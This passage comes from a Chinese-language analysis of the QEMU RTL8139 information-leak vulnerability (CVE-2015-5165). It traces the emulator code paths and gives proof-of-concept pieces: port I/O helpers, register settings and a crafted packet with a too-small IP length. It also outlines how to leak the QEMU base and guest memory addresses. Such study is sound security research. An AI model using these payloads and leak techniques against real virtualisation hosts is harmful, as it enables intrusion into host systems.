    int is_last_frame = 0;
	
	//这里就是开始分片的操作，可以看到这里循环使用的条件变量是通过ip_data_len计算得到的
    for (tcp_send_offset = 0; tcp_send_offset < tcp_data_len; tcp_send_offset += tcp_chunk_size)
    {
        uint16_t chunk_size = tcp_chunk_size;

        /* check if this is the last frame */
        if (tcp_send_offset + tcp_chunk_size >= tcp_data_len)
        {
             is_last_frame = 1;
             chunk_size = tcp_data_len - tcp_send_offset;
         }

         DPRINTF("+++ C+ mode TSO TCP seqno %08x\n",
             be32_to_cpu(p_tcp_hdr->th_seq));

         /* add 4 TCP pseudoheader fields */
         /* copy IP source and destination fields */
         memcpy(data_to_checksum, saved_ip_header + 12, 8);

         DPRINTF("+++ C+ mode TSO calculating TCP checksum for "
             "packet with %d bytes data\n", tcp_hlen +
             chunk_size);

         if (tcp_send_offset)
         {
             memcpy((uint8_t*)p_tcp_hdr + tcp_hlen, (uint8_t*)p_tcp_hdr + tcp_hlen + tcp_send_offset, chunk_size);
         }

         /* keep PUSH and FIN flags only for the last frame */
         if (!is_last_frame)
         {
             TCP_HEADER_CLEAR_FLAGS(p_tcp_hdr, TCP_FLAG_PUSH|TCP_FLAG_FIN);
         }

         /* recalculate TCP checksum */
         ip_pseudo_header *p_tcpip_hdr = (ip_pseudo_header *)data_to_checksum;
         p_tcpip_hdr->zeros      = 0;
         p_tcpip_hdr->ip_proto   = IP_PROTO_TCP;
         p_tcpip_hdr->ip_payload = cpu_to_be16(tcp_hlen + chunk_size);

         p_tcp_hdr->th_sum = 0;

         int tcp_checksum = ip_checksum(data_to_checksum, tcp_hlen + chunk_size + 12);
         DPRINTF("+++ C+ mode TSO TCP checksum %04x\n",
             tcp_checksum);

         p_tcp_hdr->th_sum = tcp_checksum;

         /* restore IP header */
         memcpy(eth_payload_data, saved_ip_header, hlen);

         /* set IP data length and recalculate IP checksum */
         ip->ip_len = cpu_to_be16(hlen + tcp_hlen + chunk_size);

         /* increment IP id for subsequent frames */
         ip->ip_id = cpu_to_be16(tcp_send_offset/tcp_chunk_size + be16_to_cpu(ip->ip_id));

         ip->ip_sum = 0;
         ip->ip_sum = ip_checksum(eth_payload_data, hlen);
         DPRINTF("+++ C+ mode TSO IP header len=%d "
                 "checksum=%04x\n", hlen, ip->ip_sum);

         int tso_send_size = ETH_HLEN + hlen + tcp_hlen + chunk_size;
         DPRINTF("+++ C+ mode TSO transferring packet size "
             "%d\n", tso_send_size);
         rtl8139_transfer_frame(s, saved_buffer, tso_send_size,
             0, (uint8_t *) dot1q_buffer);

         /* add transferred count to TCP sequence number */
         p_tcp_hdr->th_seq = cpu_to_be32(chunk_size + be32_to_cpu(p_tcp_hdr->th_seq));
         ++send_count;
     }

     /* Stop sending this frame */
     saved_size = 0;
 }
```

注意看一下29行和43行的注释，可以看到ip_data_len在这两个地方被使用到了

之后会把封装好的 Ethernet Frame 通过函数 `rtl8139_transfer_frame` 发送，函数部分代码如下：

```
static void rtl8139_transfer_frame(RTL8139State *s, uint8_t *buf, int size,
    int do_interrupt, const uint8_t *dot1q_buf)
{
    ...............................................
    if (TxLoopBack == (s->TxConfig & TxLoopBack))
    {
        size_t buf2_size;
        uint8_t *buf2;

        if (iov) {
            buf2_size = iov_size(iov, 3);
            buf2 = g_malloc(buf2_size);
            iov_to_buf(iov, 3, 0, buf2, buf2_size);
            buf = buf2;
        }

        DPRINTF("+++ transmit loopback mode\n");
        rtl8139_do_receive(qemu_get_queue(s->nic), buf, size, do_interrupt);

        if (iov) {
            g_free(buf2);
        }
    }
    ...............................................
}
```

可以看出，当设置了 `TxLoopBack` 标记时，会直接调用 `rtl8139_do_receive` 接收数据，数据会写入到接收缓冲区中。

## 漏洞相关代码执行流程

知道了漏洞的成因，和具体出现漏洞的函数，那么我们就需要先知道一下，怎么才能调用到这个函数，从而来利用这个漏洞，根据之前做qemu相关的ctf题的经验，首先来看一下相关的rtl8139设备的realize函数，对应代码(关键部分)如下：

```
static void pci_rtl8139_realize(PCIDevice *dev, Error **errp)
{
	..............................................
	
    memory_region_init_io(&s->bar_io, OBJECT(s), &rtl8139_io_ops, s,
                          "rtl8139", 0x100);
    memory_region_init_io(&s->bar_mem, OBJECT(s), &rtl8139_mmio_ops, s,
                          "rtl8139", 0x100);
                          
	..............................................
}
```

对应可以看到这里初始化了PMIO和MMIO，对应初始化部分如下：

```
--------------------------------------------------------------------------------------------------------
PMIO:
static const MemoryRegionOps rtl8139_io_ops = {
    .read = rtl8139_ioport_read,
    .write = rtl8139_ioport_write,
    .impl = {
        .min_access_size = 1,
        .max_access_size = 4,
    },
    .endianness = DEVICE_LITTLE_ENDIAN,
};

static uint64_t rtl8139_ioport_read(void *opaque, hwaddr addr,
                                    unsigned size)
{
    switch (size) {
    case 1:
        return rtl8139_io_readb(opaque, addr);
    case 2:
        return rtl8139_io_readw(opaque, addr);
    case 4:
        return rtl8139_io_readl(opaque, addr);
    }

    return -1;
}

static void rtl8139_ioport_write(void *opaque, hwaddr addr,
                                 uint64_t val, unsigned size)
{
    switch (size) {
    case 1:
        rtl8139_io_writeb(opaque, addr, val);
        break;
    case 2:
        rtl8139_io_writew(opaque, addr, val);
        break;
    case 4:
        rtl8139_io_writel(opaque, addr, val);
        break;
    }
}
--------------------------------------------------------------------------------------------------------
MMIO:
static const MemoryRegionOps rtl8139_mmio_ops = {
    .old_mmio = {
        .read = {
            rtl8139_mmio_readb,
            rtl8139_mmio_readw,
            rtl8139_mmio_readl,
        },
        .write = {
            rtl8139_mmio_writeb,
            rtl8139_mmio_writew,
            rtl8139_mmio_writel,
        },
    },
    .endianness = DEVICE_LITTLE_ENDIAN,
};

static uint32_t rtl8139_mmio_readb(void *opaque, hwaddr addr)
{
    return rtl8139_io_readb(opaque, addr & 0xFF);
}

static uint32_t rtl8139_mmio_readw(void *opaque, hwaddr addr)
{
    uint32_t val = rtl8139_io_readw(opaque, addr & 0xFF);
    return val;
}

static uint32_t rtl8139_mmio_readl(void *opaque, hwaddr addr)
{
    uint32_t val = rtl8139_io_readl(opaque, addr & 0xFF);
    return val;
}

static void rtl8139_mmio_writeb(void *opaque, hwaddr addr, uint32_t val)
{
    rtl8139_io_writeb(opaque, addr & 0xFF, val);
}

static void rtl8139_mmio_writew(void *opaque, hwaddr addr, uint32_t val)
{
    rtl8139_io_writew(opaque, addr & 0xFF, val);
}

static void rtl8139_mmio_writel(void *opaque, hwaddr addr, uint32_t val)
{
    rtl8139_io_writel(opaque, addr & 0xFF, val);
}
--------------------------------------------------------------------------------------------------------
```

最后可以发现无论是MMIO还是PMIO对应的write和read都是调用了下面的几个函数：

```
rtl8139_io_readb;
rtl8139_io_readw;
rtl8139_io_readl;
rtl8139_io_writeb(opaque, addr, val);
rtl8139_io_writew(opaque, addr, val);
rtl8139_io_writel(opaque, addr, val);
```

我们以writeb为例，看一下rtl8139_io_writeb函数的具体内容：

```
static void rtl8139_io_writeb(void *opaque, uint8_t addr, uint32_t val)
{
    RTL8139State *s = opaque;

	.................................................

        case TxThresh:
            DPRINTF("C+ TxThresh write(b) val=0x%02x\n", val);
            s->TxThresh = val;
            break;

        case TxPoll:
            DPRINTF("C+ TxPoll write(b) val=0x%02x\n", val);
            if (val & (1 << 7))
            {
                DPRINTF("C+ TxPoll high priority transmission (not "
                    "implemented)\n");
                //rtl8139_cplus_transmit(s);
            }
            if (val & (1 << 6))
            {
                DPRINTF("C+ TxPoll normal priority transmission\n");
                rtl8139_cplus_transmit(s);
            }

            break;

        default:
            DPRINTF("not implemented write(b) addr=0x%x val=0x%02x\n", addr,
                val);
            break;
    }
}
```

可以看到当往TxPoll中写入数据的时候，会在`if (val & (1 << 6))`这个分支调用`rtl8139_cplus_transmit`函数，`rtl8139_cplus_transmit`函数对应代码如下:

```
static void rtl8139_cplus_transmit(RTL8139State *s)
{
    int txcount = 0;

    while (rtl8139_cplus_transmit_one(s))
    {
        ++txcount;
    }

    /* Mark transfer completed */
    if (!txcount)
    {
        DPRINTF("C+ mode : transmitter queue stalled, current TxDesc = %d\n",
            s->currCPlusTxDesc);
    }
    else
    {
        /* update interrupt status */
        s->IntrStatus |= TxOK;
        rtl8139_update_irq(s);
    }
}
```

可以看到对应的第5行就是在循环调用包含漏洞的`rtl8139_cplus_transmit_one`函数

## POC

下面我们准备先编写一个漏洞验证程序，首先我们就是需要传送数据，对应就使用到了pmio和mmio，所以我们需要先知道对应的端口号是多少，使用lspci -v命令，就可以把对应的信息全部显示出来了，结果如下所示：

```
root@resery:~# lspci -v
00:04.0 Ethernet controller: Realtek Semiconductor Co., Ltd. RTL-8100/8101L/8139 PCI Fast Ethernet Adapter (rev 20)
	Subsystem: Red Hat, Inc. QEMU Virtual Machine
	Physical Slot: 4
	Flags: bus master, fast devsel, latency 0, IRQ 11
	I/O ports at c000 [size=256]
	Memory at febf1000 (32-bit, non-prefetchable) [size=256]
	Expansion ROM at feb80000 [disabled] [size=256K]
	Kernel driver in use: 8139cp
	Kernel modules: 8139cp, 8139too
```

可以看到对应pmio的端口号为c000(第6行)，所以对应的pmio读写函数如下：

```
uint32_t pmio_port = 0xc000;

void pmio_writeb(uint32_t data,uint32_t addr){
	outb(data,pmio_port+addr);
}

void pmio_writew(uint32_t data,uint32_t addr){
	outw(data,pmio_port+addr);
}

void pmio_writel(uint32_t data,uint32_t addr){
	outl(data,pmio_port+addr);
}

uint32_t pmio_readb(uint32_t addr){
	return (uint32_t)inb(addr);
}

uint32_t pmio_readw(uint32_t addr){
	return (uint32_t)inw(addr);
}

uint32_t pmio_readl(uint32_t addr){
	return (uint32_t)inl(addr);
}
```

根据上面的执行流程分析，我们需要设置一些数据才能保证，qemu会执行到漏洞代码部分，首先我们想要调用`rtl8139_cplus_transmit`函数的话就需要确保`TxPoll`寄存器中包含值，然后传入的val还需要第6位还需要为1(从0开始)，其余的一些需要配置的内容如下，以及qemu中检查的代码：

1. 设置bChipCmdState & CmdTxEnb 和 bChipCmdState & CmdRxEnb

   ```
   -----------------------------------------------------------------------------------------------------
   static int rtl8139_cplus_transmit_one(RTL8139State *s)
   {
       if (!rtl8139_transmitter_enabled(s))
       {
           DPRINTF("+++ C+ mode: transmitter disabled\n");
           return 0;
       }
       .......................
   }
   -----------------------------------------------------------------------------------------------------
   static int rtl8139_transmitter_enabled(RTL8139State *s)
   {
       return s->bChipCmdState & CmdTxEnb;
   }
   -----------------------------------------------------------------------------------------------------
   if (!rtl8139_receiver_enabled(s))
   {
       DPRINTF("receiver disabled ================\n");
       return -1;
   }
   -----------------------------------------------------------------------------------------------------
   static int rtl8139_receiver_enabled(RTL8139State *s)
   {
       return s->bChipCmdState & CmdRxEnb;
   }
   -----------------------------------------------------------------------------------------------------
   ```

2. 设置CpCmd & CPlusRxEnb 和 CpCmd & CPlusRxEnb

   ```
   -----------------------------------------------------------------------------------------------------
   static int rtl8139_cplus_transmit_one(RTL8139State *s)
   {
   	.......................
       if (!rtl8139_cp_transmitter_enabled(s))
       {
           DPRINTF("+++ C+ mode: C+ transmitter disabled\n");
           return 0 ;
       }
       .......................
   }
   -----------------------------------------------------------------------------------------------------
   static int rtl8139_cp_receiver_enabled(RTL8139State *s)
   {
       return s->CpCmd & CPlusRxEnb;
   }
   -----------------------------------------------------------------------------------------------------
   if (rtl8139_cp_receiver_enabled(s))
   {
           if (!rtl8139_cp_rx_valid(s)) {
               return size;
           }
           ......................................
   }
   -----------------------------------------------------------------------------------------------------
   static int rtl8139_cp_receiver_enabled(RTL8139State *s)
   {
       return s->CpCmd & CPlusRxEnb;
   }
   -----------------------------------------------------------------------------------------------------
   ```

3. 设置txdw0

   ```
   if (txdw0 & CP_TX_LS){
   	................................
       if (txdw0 & (CP_TX_IPCS | CP_TX_UDPCS | CP_TX_TCPCS | CP_TX_LGSEN)){
       	//这个分支里面包含漏洞代码
       }
       if (!(txdw0 & CP_TX_OWN))
       {
           DPRINTF("C+ Tx mode : descriptor %d is owned by host\n", descriptor);
           return 0 ;
       }
       //这里如果不设置CP_TX_EOR位的话就会移动currCPlusTxDesc到下一个位置了
       if (txdw0 & CP_TX_EOR)
       {
           s->currCPlusTxDesc = 0;
       }
       if ((txdw0 & CP_TX_LGSEN) && ip_protocol == IP_PROTO_TCP){
       	//这个分支里面包含数据包分片的代码
       }
       //这里是通过动调发现的,动调的时候发现设置了上面那些内容之后if (proto == ETH_P_IP)这个判断过不了,于是回溯了一下saved_buffer是怎么来的
       //可以发现pci_dma_read是把tx_buf中的内容复制到cplus_txbuffer里面,然后复制的长度是有txdw0 & CP_TX_BUFFER_SIZE_MASK得到的
       //所以我们要是想让数据包可以被复制进来那么就需要设置一下txdw0,设置的数值就是我们的以太网帧的大小即1514
       --------------------------------------------------------------------------------------
       |   int txsize = txdw0 & CP_TX_BUFFER_SIZE_MASK;									 |
       |   pci_dma_read(d, tx_addr,s->cplus_txbuffer + s->cplus_txbuffer_offset, txsize);   |
       |   uint8_t *saved_buffer  = s->cplus_txbuffer;										 |
       |   int proto = be16_to_cpu(*(uint16_t *)(saved_buffer + 12));                       |
       |   if (proto == ETH_P_IP)                                                           |
       --------------------------------------------------------------------------------------
   }
   ```

4. 设置rxdw0

   ```
   -----------------------------------------------------------------------------------------------------
   if (!(rxdw0 & CP_RX_OWN)){
       //如果不设置CP_RX_OWN就会直接return了
   }
   -----------------------------------------------------------------------------------------------------
   //动调的时候可以发现size+4的值为1514,然后rx_space的值是根据rxdw0来得到的,所以说我们需要设置rxdw0的值是大于1518的才可以不在这里return
   uint32_t rx_space = rxdw0 & CP_RX_BUFFER_SIZE_MASK;
   ..........................
   if (size+4 > rx_space){
       DPRINTF("C+ Rx mode : descriptor %d size %d received %d + 4\n",
           descriptor, rx_space, size);
   
       s->IntrStatus |= RxOverflow;
       ++s->RxMissed;
   
       /* update tally counter */
       ++s->tally_counters.RxERR;
       ++s->tally_counters.MissPkt;
   
       rtl8139_update_irq(s);
       return size_;
   }
   -----------------------------------------------------------------------------------------------------
   ```

5. 设置ip_header_version(0100为ipv4)

   ```
   if (IP_HEADER_VERSION(ip) != IP_HEADER_VERSION_4) {
       DPRINTF("+++ C+ mode packet has bad IP version %d "
           "expected %d\n", IP_HEADER_VERSION(ip),
           IP_HEADER_VERSION_4);
       ip = NULL;
   } else {
       hlen = IP_HEADER_LENGTH(ip);
       ip_protocol = ip->ip_p;
       ip_data_len = be16_to_cpu(ip->ip_len) - hlen;
   }
   ```

6. 设置TxConfig

   ```
   if (TxLoopBack == (s->TxConfig & TxLoopBack))
   {
       //这里面会把数据包发回给自己
       size_t buf2_size;
       uint8_t *buf2;
   
       if (iov) {
           buf2_size = iov_size(iov, 3);
           buf2 = g_malloc(buf2_size);
           iov_to_buf(iov, 3, 0, buf2, buf2_size);
           buf = buf2;
       }
   
       DPRINTF("+++ transmit loopback mode\n");
       rtl8139_do_receive(qemu_get_queue(s->nic), buf, size, do_interrupt);
   
       if (iov) {
           g_free(buf2);
       }
   }
   ```

7. 设置网卡的mac地址

   ```
   //其中buf为以太网帧,phys为RTL8139State结构体中的存储mac地址的数组
   else if (s->phys[0] == buf[0] &&
            s->phys[1] == buf[1] &&
            s->phys[2] == buf[2] &&
            s->phys[3] == buf[3] &&
            s->phys[4] == buf[4] &&
            s->phys[5] == buf[5])
   ```

8. 设置AcceptMyPhys

   ```
   //如果这里不设置的话就会直接return size而不会执行后面接受数据的代码
   if (!(s->RxConfig & AcceptMyPhys))
   {
       DPRINTF(">>> rejecting physical address matching packet\n");
   
       /* update tally counter */
       ++s->tally_counters.RxERR;
   
       return size;
   }
   ```

9. 设置传送的数据包中的数据，这个根据上面的前置知识中的注解配置即可

   ```
   uint8_t rtl8139_packet[] = {
       //目标mac地址
       0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 
       //源mac地址
       0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 
       //代表IPV4
       0x08, 0x00, 
   
       //报头长度
       (0x04 << 4) | 0x05,    // 0x05 * 4 = 20 bytes
       //TOS
       0x00,
       //这里由于我们需要设置长度为19,从而实现溢出
       0x00, 0x13,
       //Identification
       0xde, 0xad,
       //Flags & Fragment Offset(必须为64的整数倍,所以直接设置为64)
       0x40, 0x00,
       //TTL通常为32,64,128这里直接设置为64
       0x40,           
       //Protocol为6代表TCP
       0x06,
       // Header checksum
       0xde, 0xad,
       //源IP:127.0.0.1
       0x7f, 0x00, 0x00, 0x01,
       //目的IP:127.0.0.1
       0x7f, 0x00, 0x00, 0x01,
       
       // IP Packet Payload 数据, 即 TCP 数据包
       //源端口
       0xde, 0xad,
       //目的端口
       0xbe, 0xef,
       //Sequence Number
       0x00, 0x00, 0x00, 0x00,
       //Acknowledgement Number
       0x00, 0x00, 0x00, 0x00,
       //报头长度,其中Header Length只占4位,后面的4位加上下面ACK中的2位都是保留位,保留位必须为0
       0x50,
       //从第3位开始是Control Flags,其中第4位代表ACK
       0x10,
       //Window Size
       0xde, 0xad,
       //TCP checksum
       0xde, 0xad,
       //Urgent Pointer
       0x00, 0x00
   };
   ```

poc代码：[poc](poc)

执行poc之后会有如结果：



## 漏洞利用

我们主要泄露两个东西，一个是qemu的基地址一个是qemu为虚拟机分配的内存的起始地址

- 泄露qemu基地址是通过读取 `ObjectProperty` 对象中保存的函数指针来泄露模块 `qemu-system-x86_64` 的基地址，结构体 `ObjectProperty` 的定义如下：

  ```
  #define Q_TAILQ_ENTRY(type, qual)                               \
  struct {                                                        \
      qual type *tqe_next;        /* next element */              \
      qual type *qual *tqe_prev;  /* address of previous next element */\
  }
  #define QTAILQ_ENTRY(type)       Q_TAILQ_ENTRY(struct type,)
  
  typedef struct ObjectProperty
  {
      gchar *name;
      gchar *type;
      gchar *description;
      ObjectPropertyAccessor *get;
      ObjectPropertyAccessor *set;
      ObjectPropertyResolve *resolve;
      ObjectPropertyRelease *release;
      void *opaque;
  
      QTAILQ_ENTRY(ObjectProperty) node;
  } ObjectProperty;
  ```

  对应我们利用的时候需要先看一下ObjectProperty的get函数的地址，然后利用ASLR 不会对地址的低`12` 位进行随机化处理，因此可以以相关函数地址的低 `12` 位为特征进行搜索，以计算出模块 `qemu-system-x86_64` 的基地址;

  我在这里遇到的问题就是怎么先知道ObjectProperty的get函数的地址，我的解决办法是在object_property_add函数下断点，然后在这个函数里面可以找到存储get函数的地址，然后就可以再继续上面的步骤达到泄露qemu的基地址的目的

- 泄露虚拟机的起始地址，统计泄露的数据中出现的 `uint64_t` 类型的数据 `0x00007FXXYYZZZZZZ` ，其中 `7FXXYY` 出现次数最多的数据，就是 QEMU 虚拟机物理内存的结束地址，然后减掉一开始给虚拟机分配的内存的大小就是虚拟机的起始地址

exp代码：[exp](exp)

执行exp之后会有如下结果：



## 参考链接

https://ray-cp.github.io/archivers/qemu-pwn-cve-2015-5165%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90#%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90

https://programlife.net/2020/06/30/cve-2015-5165-qemu-rtl8139-vulnerability-analysis/#more

https://blog.csdn.net/shenlanzifa/article/details/51993311